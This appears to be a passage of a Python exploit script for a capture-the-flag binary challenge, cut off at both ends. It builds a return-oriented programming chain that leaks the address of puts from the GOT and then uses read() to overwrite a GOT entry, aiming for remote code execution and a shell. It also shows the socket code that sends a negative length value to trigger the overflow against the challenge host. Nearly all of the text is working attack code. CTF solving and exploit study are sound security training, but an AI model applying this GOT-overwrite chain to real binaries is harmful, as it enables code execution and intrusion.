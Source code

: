 ```python
0x00000296 : xor ebx, ebx; nop [rax + rax]; mov rdx, r13; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
0x00000060 : pop rbp; ret
'''

base = 0x400590
# prologue, needed for later! after the [call r12 + rbx*8], there is
# a cmp rbx, rbp. At this point, rbx is 1 and if rbp is not equal to rbx, 
# the code jumps back instead of leading to a ret!
# therefore, we set up rbp first. 
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

# first, we set up some registers, which will later be put in the correct registers
# puts() uses rdi as argument
payload += q(0x000002bc+base)
payload += q(0x600c50)  # value for r12 -> puts@got
payload += q(0)         # value for r13 -> goes into rdx 
payload += q(0)         # value for r14 -> goes into rsi
payload += q(0x600c50)  # value for r15 -> goes into rdi -> leak addr of puts()

# swap around the registers and call puts()
payload += q(0x00000296+base)
payload += q(0) * 7
# without this, we don't get output
payload += q(0x400570)  # fflush@plt

# now read() to overwrite printf()
# read() is blocking and will wait for our input :)
# again, first set up rbp
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

# set up registers/arguments for read()
payload += q(0x000002bc+base)
payload += q(0x600c60)  # value for r12 -> read@got
payload += q(8)         # value for r13 -> goes into rdx -> count
payload += q(0x600c50)  # value for r14 -> goes into rsi -> overwrite puts@got
payload += q(0)         # value for r15 -> goes into rdi -> 0 -> stdin

payload += q(0x00000296+base)
payload += q(0) * 7

# restart main(), so the binary will execute puts() -> one shot rce, lands a shell
# could've just a easily return to puts@plt...
payload += q(0x4006ec) 

def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10103))

    readtil('name?')
    s.send('a\n')
    readtil('message:')
    s.send('-1\n')   # ty Swappage!
    readtil('text:')
    s.send(payload+'\n')
    
    readtil('Thanks!\n')
    data = s.recv(8)
    data = data[:-1] + "\x00\x00"
    puts_addr = struct.unpack('<Q', data)[0]
```